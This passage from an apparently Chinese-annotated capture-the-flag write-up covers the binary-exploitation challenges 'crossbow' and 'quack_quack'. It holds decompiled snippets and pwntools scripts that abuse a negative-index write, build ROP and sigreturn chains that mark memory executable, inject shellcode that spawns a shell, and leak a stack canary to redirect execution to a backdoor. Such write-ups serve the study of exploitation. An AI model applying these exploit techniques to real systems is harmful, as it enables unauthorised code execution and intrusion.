pay += bytes(sigframe)
s(pay[:0x106]) 

pause()
pay = p64(bss+8) + asm('add rsp,0x100')
pay += asm(shellcraft.sh())
s(pay)
```

‍

‍

## crossbow

‍

```c
target_dummy(){
	...
	...
	if ( (unsigned int)scanf("%d%*c", v14) != 1 ) // 输入-2
  	{
		...
  	}
  	v8 = (_QWORD *)(8LL * v14[0] + a1);
  	*v8 = calloc(1LL, 128LL); // 覆盖 rsp 上的指针
	...
	...
	fgets_unlocked(*(_BYTE **)(8LL * v14[0] + a1), 128, (__int64)&_stdin_FILE); // 写ROP到返回地址上
}
// return  leave 


int training(){
	...
	char v13[32];
	...
	target_dummy(v13);
}
```

‍

‍

‍

```python
io = start([])


sl('-2')
pause()
rax = 0x0000000000401001 # pop rax ; ret
rdi = 0x0000000000401d6c # pop rdi ; ret
rdx = 0x0000000000401139 # pop rdx ; ret
rsi = 0x000000000040566b # pop rsi ; ret
syscall = 0x4067ED
target = 0x40d000

pay  =  p64(0)
#pay += p64(rax) + p64(0x0a)
pay += p64(rdi) + p64(target)
pay += p64(rsi) + p64(0x1000)
pay += p64(rdx) + p64(7)
pay += p64(0x040A320)
#pay += p64(rax) + p64(0x0)
pay += p64(rdi) + p64(0)
pay += p64(rsi) + p64(target)
pay += p64(rdx) + p64(0x100)
pay += p64(syscall)
pay += p64(target)[:-1]
s(pay)

pause()
sl(asm(shellcraft.sh()))
itr()
```

‍

## quack_quack

‍

```python
io = start([])


#gdb.attach(io,gdbscript)
t = 'Quack Quack '
pay = 'A' * 0x59 + t
pause()
ru('Quack the Duck!\n\n> ')
s(pay)
ru('Quack Quack ')
canary = uu64(r(7)) << 8
lss('canary')


pause()
pay = b'A' * 0x58 + p64(canary)*2 + p64(0x40137F) #backdoor
s(pay)
```

‍

‍
